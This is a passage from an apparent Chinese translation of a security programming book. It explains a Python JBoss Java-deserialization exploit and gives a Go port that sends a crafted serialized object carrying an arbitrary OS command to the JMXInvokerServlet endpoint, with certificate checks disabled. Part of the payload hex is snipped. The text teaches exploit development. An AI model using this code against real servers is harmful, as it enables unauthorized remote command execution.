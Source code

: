 清单 9-3: Python 序列化开发代码

让我们看下这里用到了那些东西。该函数接收host，port，SSL标示和操作系统命令作为参数。为了构建正确的请求，该函数必须创建一个表示序列化Java对象的有效负载。该脚本首先将一系列字节硬编码到名为 `body_serObj` 的变量中。为了简洁起见，已将这些字节删除，但请注意，它们在代码中以字符串值的形式表示。这是一个十六进制字符串，需要将其转换为字节数组，以便该字符串的两个字符成为单个字节的表示形式。例如，您需要将`AC`转换为十六进制字节 `\ xAC`。为了完成此转换，代码调用了 `hex2raw3` 函数。只要了解了十六进制字符串是怎么回事，关于此函数基础实现的细节就无关紧要了。

接下来，脚本计算操作系统命令的长度，然后将长度和命令追加到 `body_serObj` 变量。该脚本通过附加以表示Java序列化对象其余部分的其他数据来完成有效负载的构造，该对象以JBoss可以处理的格式。构造有效负载后，脚本将构建URL并设置SSL以忽略无效证书（如有必要）。然后，设置所需的 `Content-Type`和`Content-Length` HTTP标头，并将恶意请求发送到目标服务器。

该脚本中的大多数内容对于我们来说并不陌生，因为在上一章已经介绍了大部分内容。现在，只需以Go习惯的方式进行等效的函数调用即可。清单9-4是该漏洞的Go版本。

```go
func jboss(host string, ssl bool, cmd string) (int, error) {
    serializedObject, err := hex.DecodeString("ACED0005737--SNIPPED FOR BREVITY--017400")
    if err != nil {
        return 0, err
    }
    serializedObject = append(serializedObject, byte(len(cmd)))
    serializedObject = append(serializedObject, []byte(cmd)...)
    afterBuf, err := hex.DecodeString("740004657865637571--SNIPPED FOR BREVITY--7E003A")
    if err != nil {
        return 0, err
    }
    serializedObject = append(serializedObject, afterBuf...)

    var client *http.Client var url string
    if ssl {
        client = &http.Client{ 
            Transport: &http.Transport{
                TLSClientConfig: &tls.Config{ 
                    InsecureSkipVerify: true,
                }, 
            },
        }
        url = fmt.Sprintf("https://%s/invoker/JMXInvokerServlet", host) 
    } else {
        client = &http.Client{}
        url = fmt.Sprintf("http://%s/invoker/JMXInvokerServlet", host) 
    }
    req, err := http.NewRequest("POST", url, bytes.NewReader(serializedObject)) 
    if err != nil {
        return 0, err
    }
    req.Header.Set(
        "User-Agent",
        "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; AS; rv:11.0) like Gecko") 
    req.Header.Set(
        "Content-Type",
        "application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue")
    resp, err := client.Do(req)
    if err != nil {
        return 0, err
    }
    return resp.StatusCode, nil 
}
```

